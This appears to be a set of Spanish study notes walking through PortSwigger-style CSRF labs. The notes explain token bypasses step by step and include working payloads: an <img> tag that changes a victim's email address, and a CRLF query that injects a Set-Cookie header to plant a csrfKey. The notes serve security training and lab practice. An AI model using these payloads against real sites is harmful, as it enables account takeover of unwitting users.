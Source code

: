 
La falsificación de solicitud entre sitios (también conocida como CSRF) es una vulnerabilidad de seguridad web que permite a un atacante inducir a los usuarios a realizar acciones que no tienen intención de realizar. Permite a un atacante eludir parcialmente la política de mismo origen, que está diseñada para evitar que diferentes sitios web interfieran entre sí.

<hr>

- **Strict 🔒 → Solo dentro del mismo sitio. Más seguro, pero puede romper algunas funcionalidades.**
- **Lax 🌐 → Permite cookies en enlaces, pero bloquea en formularios y scripts para evitar ataques CSRF.**
### Payloads 

Para este tipo de ataque es vital ir haciendo secuencialmente los primeros y más basicos CSRF ya que con esto lo que hacemos será ir descartando los primeros más básicos. 

```js
//LAB: CSRF sin defensas
//POST /my-account/change-email
	//engagement tools>Generate CSRF POC.
	//store & deliver exploit to victim - SERVER-EXPLOIT

//LAB: CSRF validación Token Depends of method request (ex:POST->GET)
	//Capture request to change email Change Request method to GET
	//GET /my-account/change-email?email=attacker@evil.net y quitamos el TOKEN CSRF....
	//Right click > engagement tools > generate CSRF POC
	//store & deliver exploit to victim
	//payload exitoso: <img src="https://ID-LAB.web-security-academy.net/my-account/change-email?email=pwned@evil-user.net">

//LAB: CSRF validación Token Depends presencia Token (delete param CSRF=)
	//POST /my-account/change-email //(sin el token CSRF)
	//Engagement Tools>Generate CSRF POC. "quitamos el token csrf"
	//Store & deliver exploit to victim.

//LAB: CSRF no se vincula a session user unico (CSRF's globales sin validar para un unico user cada token) - reutilizacion de token con otros usuarios. `STAGE 2`
	//Ingresar como carlos y change-email
	//My-account to get Hidden CSRF in dom 
	//POST /my-account/change-email //con token CSRF hidden (actualizar la pagina para tomar un token CSRF Nuevo)
	//Engagement Tools>Generate CSRF POC & store-deliver exploit to victim
	//y el problema recae en que como user carlos con mi token csrf hidden, puedo
	//hacer que un user Viewer cambie su email con mi mismo token, ya que es un token global que no está anclado a la session de un usuario unico.


//LAB: # where token is tied to non-session cookie `LastSearchTerm` `Set-Cookie` 
// Token vinculado con una cookie que no es la de session.
//STAGE 2  
	//lo que pasa es que la cookie facilmente es manipulable, entonces el CSRF es expuesto a ser modificadop por uno -> CSRF=fake
	//Es importante tener en cuenta que si la barra de busqueda del home page la podemos modificar para modificar en la response la cookie, entonces el ataque puede venir por aquí..
	Consulta para inyectar el fake: 
		//GET /?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
		//esa la mandamos y veremos reflejada la csrfKey con el valor de nuestra csrfKey, de donde tomamos la csrfKey? de ahi mismo de la request o en la request de CHANGE EMAIL TAMBIEN ESTÁ AHI LA CSRFKey y la CSRF  
		//Generate CSRF POC: `De la REQUEST CHANGE EMAIL y simplemente eliminamos el -> <script></scrip>..`
	//en este caso la app nombra el csrf de la cookie no como csrfkey=token sino como csrf=token (pero si es csrfKey no pasa nada), es importante cambiarlo sino podría generar un error durante el ataque, además en lugar de las tags scripts las eliminamos y dejamos el tag <img> ->
```